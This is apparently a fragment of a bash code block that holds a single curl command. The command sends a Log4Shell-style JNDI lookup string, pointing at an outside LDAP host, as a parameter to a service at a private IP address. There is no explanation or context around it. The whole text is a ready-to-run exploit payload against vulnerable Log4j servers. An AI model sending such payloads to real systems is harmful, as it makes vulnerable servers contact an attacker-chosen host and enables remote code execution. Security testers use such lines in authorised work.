bash
curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:23509/hello -vv
```
